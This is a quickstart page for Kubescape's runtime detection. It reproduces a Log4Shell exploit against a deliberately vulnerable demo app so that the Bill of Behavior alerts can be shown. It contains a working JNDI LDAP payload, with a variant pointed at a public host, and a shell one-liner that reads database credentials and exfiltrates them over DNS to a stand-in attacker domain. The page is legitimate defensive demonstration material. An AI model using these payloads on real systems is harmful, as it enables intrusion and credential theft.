

# Quickstart

Kubescape catching a live Log4Shell RCE — a shell spawned by a JVM worker thread, then its recon and
exfiltration children, every one of them outside the workload's declared Bill of Behavior:



This page reproduces exactly that, end to end, using the public
[`log4j-chain`](https://github.com/k8sstormcenter/bob/tree/main/example/log4j-chain) demo — a
`frontend → backend → postgres` app whose backend runs a vulnerable `log4j`. Every manifest is
applied straight from GitHub; you only need to read the few lines that matter.

!!! note "What you need"
    - A Kubernetes cluster and `kubectl`.
    - `helm`.

## 1. Install Kubescape with runtime detection on

The `sbob-rc3` chart ships as a **GitHub release asset** (there is no Helm repo yet):

```bash
CHART=https://github.com/k8sstormcenter/helm-charts/releases/download/kubescape-operator-1.40.3-sbob-rc3.1/kubescape-operator-1.40.3-sbob-rc3.1.tgz
helm install kubescape "$CHART" \
  -n kubescape --create-namespace \
  --set capabilities.runtimeObservability=enable \
  --set capabilities.runtimeDetection=enable \
  --set alertCRD.installDefault=true
```

Node-agent writes alerts to **stdout** by default — read them with `kubectl logs`. (It can also push
to Alertmanager, syslog, or HTTP, but that's not needed here.) This walkthrough covers **R0001** (RCE)
and **R0005** (DNS exfil), which reproduce turnkey; the egress rule **R0011** needs an external
attacker and is covered in [Also see R0011](#also-see-the-egress-rule-r0011) at the end.

!!! info "Which build is this"
    `sbob-rc3` is the release candidate that ships the Bill of Behavior features (wildcards, signing,
    tamper detection) from `ghcr.io/k8sstormcenter/{storage,node-agent}`.

## 2. Apply the Bill of Behavior — *before* the app

The profiles are **supplied, not learned**, so detection is live with no learning period. node-agent
binds a user profile **when the pod starts**, so the profiles must exist first — create the namespace
and apply them up front:

```bash
kubectl create namespace log4j-poc
BASE=https://raw.githubusercontent.com/k8sstormcenter/bob/main/_artifacts/log4j-sbobs
for w in backend frontend observer postgres; do
  kubectl apply -f "$BASE/ap-chain-$w.yaml" -f "$BASE/nn-chain-$w.yaml"
done
```

Two sections of the backend's Bill of Behavior are what the whole demo turns on. First, the
`ApplicationProfile` — the executables it may run:

```yaml
# ap-chain-backend.yaml — allowed executables
execs:
- { path: /opt/java/openjdk/bin/java, args: ["java", "-jar", "/app/app.jar"] }
- { path: /usr/bin/curl }
- { path: /usr/bin/psql,                         args: ["/usr/bin/psql"] }  # the symlink…
- { path: /usr/lib/postgresql/18/bin/psql,       args: ["/usr/lib/postgresql/18/bin/psql", "⋯⋯"] }
#   ↑ …and the real binary the wrapper execs. node-agent sees the *resolved*
#     path, so both must be listed; ⋯⋯ allows any psql arguments.
# no sh, no getent, no base32 — anything else is drift
```

!!! tip "Symlinks resolve — list the real binary"
    A profile that only lists `/usr/bin/psql` still alerts, because `psql` is a
    wrapper that execs `/usr/lib/postgresql/18/bin/psql` and node-agent traces the
    resolved path. Allow the binary the process actually runs. The `⋯⋯` token is the
    exec-arg wildcard (zero-or-more args).

Second, the `NetworkNeighborhood` — the only connections it may make:

```yaml
# nn-chain-backend.yaml — allowed network
ingress:
- from: { app: chain-frontend }   ports: [ TCP/8080 ]   # serves the frontend
- from: { app: chain-observer }   ports: [ TCP/8080 ]
egress:
- to: kube-dns                    ports: [ UDP/53, TCP/53 ]
- to: { app: chain-postgres }     ports: [ TCP/5432 ]     # reads the database
# NOT the attacker's LDAP, NOT arbitrary exfil domains
```

`psql` and the postgres egress are *allowed* — this app really does query a database. So the attack
cannot hide by using them. What it *cannot* do without deviating is spawn a shell, run `getent`,
resolve an unknown domain, or open an egress to the attacker. That is where it gets caught.

## 3. Make the attacker's exfil domain resolvable

R0005 fires on a *resolved* DNS lookup, and the exfil target (`…exfil.attacker.example.com`) is a
domain a real attacker would own. Simulate that in-cluster with a CoreDNS override, then reload
CoreDNS so it takes effect:

```bash
kubectl apply -f https://raw.githubusercontent.com/k8sstormcenter/bob/main/example/log4j-chain/exfil-dns.yaml
kubectl -n kube-system rollout restart deploy/coredns
```

## 4. Deploy the vulnerable app + the attacker

One manifest brings up the whole chain (`log4j-poc`) plus the in-cluster attacker (`attacker-ns`): a
marshalsec LDAP server and a class-file HTTP server. Its pods carry the
`kubescape.io/user-defined-profile` labels that bind the profiles from step 2 **at pod start**:

```bash
kubectl apply -f https://raw.githubusercontent.com/k8sstormcenter/bob/main/example/log4j-chain/log4j-chain.yaml
kubectl -n log4j-poc rollout status deploy/chain-backend --timeout=120s
kubectl -n attacker-ns rollout status deploy/attacker --timeout=60s
```

The one line that makes this exploitable is the backend's log4j (pinned to a verified digest):

```yaml
# backend container, in log4j-chain.yaml
image: ghcr.io/k8sstormcenter/log4j-chain-backend-vulnerable@sha256:8f3cb3f9…   # log4j 2.14.1 — JNDI enabled
```

## 5. Fire the exploit

The attack pod sends the classic JNDI payload in a `User-Agent` header. Substitute the pod-name
placeholder and apply it in one line:

```bash
curl -sL https://raw.githubusercontent.com/k8sstormcenter/bob/main/example/log4j-chain/attack-pod.yaml \
  | sed 's/attack-PLACEHOLDER/attack-a/' | kubectl apply -f -
```

The single line that is the attack:

```yaml
# attack-pod.yaml — the probe
args: [ curl, -s, -A,
        '${jndi:ldap://attacker.attacker-ns.svc.cluster.local:1389/Payload}',
        'http://frontend:8080/api/products?q=test' ]
```

!!! note "For the network rules, point the JNDI at a *public* LDAP"
    The in-cluster attacker above is a private ClusterIP, so it triggers the RCE (R0001) but **not**
    R0011 (which skips private targets). To see the full DNS + egress detection, run the attacker on
    an external host and point the JNDI at it, e.g.
    `${jndi:ldap://<public-host>:1389/Payload}`. The demo's attacker image takes the codebase host as
    an env var (`CODEBASE_HOST`), so it can run anywhere.

## 6. See the detection

First, recall what the profile **allows** — the two lists from the gif. Nothing here ever alerts:

```bash
kubectl -n log4j-poc get applicationprofile chain-backend \
  -o jsonpath='{range .spec.containers[0].execs[*]}{.path}{"\n"}{end}'
#  /opt/java/openjdk/bin/java   /usr/bin/java   /usr/bin/curl
#  /usr/bin/psql   /usr/lib/postgresql/18/bin/psql          # the DB client + its resolved binary

kubectl -n log4j-poc get networkneighborhood chain-backend \
  -o jsonpath='{range .spec.containers[0].egress[*]}{.identifier}{"\n"}{end}'
#  egress-kube-dns   egress-chain-postgres                  # DNS + the database, nothing else
```

Now fire the payload and read the raw alerts — **one JSON object per rule violation**:

```bash
kubectl -n kubescape logs -l app=node-agent --tail=200 | grep KubescapeRuleViolated \
  | jq -c '{RuleID, alertName: .BaseRuntimeMetadata.alertName, args: .BaseRuntimeMetadata.arguments}'
```

#### R0001 — remote code execution

The alert's process tree is the smoking gun — a **JVM worker thread** spawned a shell:

```
java  (parent: containerd-shim)
 └─ sh  (parent: pool-2-thread-2)      ← a log4j/HTTP worker thread; a web server never execs a shell
```

and that shell's command line (the alert's `arguments.args`) is the entire attack in one line:

```bash
sh -c 'ROW=$(psql -h chain-postgres -U postgres -At -c "SELECT current_database()||chr(58)||current_user")
       ENC=$(printf "%s" "$ROW" | base32 | tr -d "=" | cut -c1-40)
       getent hosts "${ENC}.exfil.attacker.example.com"'      # read DB → encode → exfil over DNS
```

Every non-`java` binary that shell runs is outside the profile, so each raises its own R0001:

```json
{"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/bin/sh","comm":"sh","pcomm":"pool-2-thread-2"}
{"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/usr/bin/base32","comm":"base32","pcomm":"sh"}
{"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/usr/bin/tr","comm":"tr","pcomm":"sh"}
{"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/usr/bin/cut","comm":"cut","pcomm":"sh"}
{"RuleID":"R0001","alertName":"Unexpected process launched","exec":"/usr/bin/getent","comm":"getent","pcomm":"sh"}
```

`psql` runs too — it's the payload reading the database — but `psql` **is** in the profile, so it
does *not* alert. The attacker is abusing a permitted tool; the tell is the shell wrapped around it.

#### R0005 — data exfiltration over DNS

`getent` performs a DNS lookup, and the hostname it queries *is* the stolen data:

```json
{"RuleID":"R0005","alertName":"DNS Anomalies in container",
 "domain":"OBXXG5DHOJSXGOTQN5ZXIZ3SMVZQ.exfil.attacker.example.com.","protocol":"UDP","port":39361}
```

Decode the label — `echo OBXXG5DHOJSXGOTQN5ZXIZ3SMVZQ | base32 -d` → **`postgres:postgres`** — the
database identity, smuggled out one DNS query at a time to a domain the profile never allows. That's
the classic DNS-exfiltration channel, caught because the *domain*, not just the connection, is
outside the `NetworkNeighborhood`.

Two rules, two facets of the same compromise — the RCE (**R0001**) and the credential theft it
smuggles out over DNS (**R0005**) — reconstructed from kernel events and caught purely by deviation
from the signed Bill of Behavior. You detected Log4Shell with **no CVE signature and no learning
period** — purely because the backend did something its Bill of Behavior declares it never does.

The third fingerprint — the outbound LDAP + HTTP call-out (**R0011**) — needs a couple of extra steps
and is covered in [Also see: the egress rule (R0011)](#also-see-the-egress-rule-r0011) below.

```bash
kubectl delete ns log4j-poc attacker-ns      # clean up
```

## Also see: the egress rule (R0011) {#also-see-the-egress-rule-r0011}

R0011 catches the outbound LDAP + HTTP that fetch the exploit class — the network fingerprint of
Log4Shell. It's not in the turnkey path above for two reasons, both fixable:

**1. R0011 ships disabled.** Enable it in the installed rules:

```bash
kubectl -n kubescape patch rules.kubescape.io default-rules --type=json \
  -p "$(kubectl -n kubescape get rules.kubescape.io default-rules -o json \
        | jq -c '[.spec.rules | to_entries[] | select(.value.id=="R0011")
                 | {op:"replace", path:"/spec/rules/\(.key)/enabled", value:true}]')"
```

**2. R0011 skips private targets.** The in-cluster attacker is a ClusterIP (RFC-1918), so R0011 never
fires against it. Run the attacker on an **external/public** host and point the JNDI there — the demo
attacker image takes the codebase host as `CODEBASE_HOST`, so it runs anywhere:

```yaml
# in attack-pod.yaml, the User-Agent JNDI
'${jndi:ldap://<public-host>:1389/Payload}'
```

With both in place, the two Log4Shell stages show up as out-of-profile egress — the LDAP referral and
the `Payload.class` download:

```json
{"RuleID":"R0011","alertName":"Unexpected Egress Network Traffic","ip":"<attacker>","port":1389,"proto":"TCP"}
{"RuleID":"R0011","alertName":"Unexpected Egress Network Traffic","ip":"<attacker>","port":8888,"proto":"TCP"}
```

If the JNDI targets an **IP** rather than a hostname there's no LDAP DNS lookup — the call-out is pure
TCP, carried by R0011 rather than R0005.

## Next

- **[End-to-end example](tutorial.md)** — the same chain across three backends (vulnerable /
  contained / patched), showing how the profile tells a *successful* exploit from a *contained* one.
- **[What is a Bill of Behavior](index.md)** — the concept, the custom resources, and how wildcards,
  signing, and compaction let you *ship* a profile instead of learning one.
- **[Node Agent Rule Library](../node-agent-rule-library.md)** — the full catalog of detection rules.
